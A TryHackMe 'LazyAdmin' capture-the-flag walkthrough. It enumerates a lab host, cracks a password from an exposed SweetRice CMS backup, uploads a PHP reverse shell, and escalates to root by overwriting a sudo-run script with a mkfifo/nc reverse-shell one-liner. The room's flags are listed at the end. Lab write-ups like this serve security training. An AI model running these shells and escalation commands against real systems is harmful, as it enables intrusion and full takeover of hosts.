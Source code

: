 # 🛡️ TryHackMe: LazyAdmin – Walkthrough & Report

**Room:** [LazyAdmin](https://tryhackme.com/room/lazyadmin)  
**Difficulty:** Easy  
**Target IP:** 10.10.187.142  
**Objective:** Capture the user and root flags by identifying and exploiting vulnerabilities

---

## 🧭 Enumeration

### 🔎 Nmap Scan

```bash
nmap -Pn -sC -sV -oN lazyadmin.nmap 10.10.187.142
```

**Findings:**

- `22/tcp` – OpenSSH
- `80/tcp` – Apache HTTPD with default Ubuntu page

---

## 🌐 Web Discovery

Visited `http://10.10.187.142`, revealed default Apache page.  
No custom web app present at root.

Used Gobuster to enumerate directories:

```bash
gobuster dir -u http://10.10.187.142 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Findings:**

- `/content/`
- `/server-status/` (403)

Further enumeration on `/content/` revealed:

- `/content/as/`
- `/content/inc/`
- `/content/inc/mysql_backup/`

---

## 🔍 CMS Identification

Visiting `/content/` revealed the site is running **SweetRice CMS**, which is known to be vulnerable.

---

## 💥 Exploitation: SweetRice Backup Disclosure

Visited:

```
http://10.10.187.142/content/inc/mysql_backup/
```

Found file:

```
mysql_backup_20191129023059-1.5.1.sql
```

Downloaded with:

```bash
wget http://10.10.187.142/content/inc/mysql_backup/mysql_backup_20191129023059-1.5.1.sql
```

Cracked MD5 hash:

```
42f749ade7f9e195bf475f37a44cafcb → Password123
```

---

## 🔐 Gaining Access

Logged in at:

```
http://10.10.187.142/content/as
```

With credentials:

```
Username: manager
Password: Password123
```

---

## 🐚 Reverse Shell

1. Downloaded reverse shell:

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

2. Edited IP and port:

```php
$ip = '10.11.0.5';  // Attacker IP
$port = 4444;
```

3. Renamed and uploaded via admin panel:

```bash
mv php-reverse-shell.php shell.phtml
```

4. Set up listener:

```bash
nc -lvnp 4444
```

5. Triggered shell → Connected as `www-data`

---

## 🧑‍💻 Privilege Escalation

Checked sudo rights:

```bash
sudo -l
```

Allowed to run:

```
/usr/bin/perl /home/itguy/backup.pl
```

Content of `backup.pl`:

```perl
system("/etc/copy.sh");
```

Overwrote `/etc/copy.sh` with a reverse shell:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <your-ip> 5554 > /tmp/f" > /etc/copy.sh
```

Started listener:

```bash
nc -lvnp 5554
```

Executed:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

Gained root shell.

---

## 🏁 Flags Captured

- **User Flag:** `THM{63e5bce9271952aad1113b6f1ac28a07}`
- **Root Flag:** `THM{6637f41d0177b6f37cb20d775124699f}`

---
